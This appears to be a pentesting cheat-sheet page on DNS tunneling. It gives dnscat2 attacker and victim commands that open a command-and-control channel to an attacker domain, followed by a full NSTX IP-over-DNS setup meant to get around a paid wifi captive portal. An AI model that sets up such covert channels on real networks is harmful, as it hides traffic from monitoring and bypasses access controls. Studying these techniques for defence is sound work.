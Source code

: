 # ⭕ DNS Tunneling

## <mark style="color:red;">DNSCat2</mark>

Establishes a C\&C channel through DNS. It doesn't need root privileges.

```
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com
```

## <mark style="color:red;">NSTX</mark>

is a hack to tunnel IP traffic over DNS.If DNS traffic does not work, but ICMP traffic (i.e., ping) works, try ICMPTX: IP-over-ICMP. Note that these instructions play nicely with ICMPTX. You can run both on one proxy.

You need several things to get going:

a DNS server that you can configure, (we'll call this ns.example.com) another server, one not running DNS. We're going to assume the IP address of this machine is 1.2.3.4. The reason you cannot run DNS on the same machine, is that you're going to run nstx on this machine. Nstx must run on port 53, like DNS. a crippled Internet connection, i.e., one that only allows you to issue DNS queries.

### <mark style="color:orange;">Configure a new DNS subdomain</mark>

Let's assume you're running the domain "example.com". The nameserver for this domain is, as mentioned before, "ns.example.com". Configure "ns.example.com" by adding a subdomain, "tunnel.example.com". You do this by appending the following DNS records at the end of the zone file for "example.com":

```
;
; subdomain for IP-over-DNS tunnelling
;
$ORIGIN tunnel.example.com.
@               IN      NS      ns.tunnel.example.com.
ns              IN      A       1.2.3.4
```

In other words. We configured 1.2.3.4 to be the name server for a new subdomain "tunnel.example.com".

### <mark style="color:orange;">Install and configure the bogus DNS server</mark>

On the machine 1.2.3.4, make sure your kernel supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```
iface tun0 inet static
  address 10.0.0.1
  netmask 255.0.0.0
```

Now start the server by running:

```
/etc/init.d/nstxd restart
```

If you're not running Debian, you can skip all that and just download the code, compile it manually, and start the server by hand and then configure the tun0 network device:

```
# nstxd tunnel.example.com
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.1 netmask 255.255.255.0
```

Whether you're running Debian or not, after running the nstx server, make sure you now have a tun0 device:

```
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX
          inet addr:10.0.0.1  P-t-P:10.0.0.1  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:50 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:10
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

Now you need to enable forwarding on this server. I use iptables to implement masquerading. There are many HOWTOs about this (a simple one, for example). On Debian, the configuration file for iptables is in /var/lib/iptables/active. The relevant bit is:

```
*nat
:PREROUTING ACCEPT [6:1596]
:POSTROUTING ACCEPT [1:76]
:OUTPUT ACCEPT [1:76]

-A POSTROUTING -s 10.0.0.0/8 -j MASQUERADE
COMMIT
```

Restart iptables:

```
/etc/init.d/iptables restart
```

and enable forwarding:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

You can make sure this is permanent by editing /etc/sysctl.conf:

```
net/ipv4/ip_forward=1
```

### <mark style="color:orange;">Configure the client</mark>

Make sure the kernel on the client machine also supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxcd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```
iface tun0 inet static
  address 10.0.0.2
  netmask 255.0.0.0
  mtu 500 # optional, may solve ssh problems
```

Marc Merlin points out that you may you want to add something like (below the mtu line)

```
post-up route del default; route add -net default gw 10.0.0.1
```

now you're sitting at an airport or in a cafe, and you have internet access and they want your money before allowing you on the Internet. However, you noticed that you can issue DNS queries.

Assuming you got an IP address through DHCP, you should now know the IP address of the DNS server they want you to use. Your /etc/resolv.conf will contain at least one "nameserver" entry. Make sure you use the first nameserver entry in /etc/resolv.conf and remove the others. For the sake of this example, let's call the first and remaining nameserver 66.77.88.99. Edit /etc/default/nstx and change set NSTX\_DNS\_SERVER to "66.77.88.99". The latest nstx Debian package obviates this manual step as follows:

```
NSTX_DNS_SERVER=`grep nameserver /etc/resolv.conf |head -1|awk '{print $2}'`
```

That is, it simply sets NSTX\_DNS\_SERVER to the IP address of the first nameserver entry in /etc/resolv.conf.

Now, (re)start the nstx client:

```
 /etc/init.d/nstxcd restart
```

If you don't have Debian, start the client manually:

```
# nstxcd tunnel.example.com 66.77.88.99
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.2 netmask 255.255.255.0
```

Make sure you now have a tun0 device:

```
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00
          inet addr:10.0.0.2  P-t-P:10.0.0.2  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:500
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

By running /sbin/route -n, figure out what your gateway is. It's the record with the "UG" Flags field. For example:

```
# /sbin/route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
192.168.1.0     0.0.0.0         255.255.255.0   U     0      0        0 wlan0
0.0.0.0         192.168.1.1     0.0.0.0         UG    0      0        0 wlan0
```

OK. So "192.168.1.1" is our gateway. Assuming your wireless network device is called "wlan0" (but it might well be "eth1", or whatever), run:

```
# /sbin/route del default
# /sbin/route add -host 66.77.88.99 gw 192.168.1.1 dev wlan0
# /sbin/route add default gw 10.0.0.1 tun0
```

Notice that "192.168.1.1" is the IP address of the gateway we learned by running "/sbin/route -n". Similarly, "66.77.88.99" is the nameserver from /etc/resolv.conf. Make sure you plug in the correct IP address in both cases.

You should now be all set. All DNS traffic is going straight to 66.77.88.99. All other traffic will be tunnelled through 1.2.3.4, via DNS.
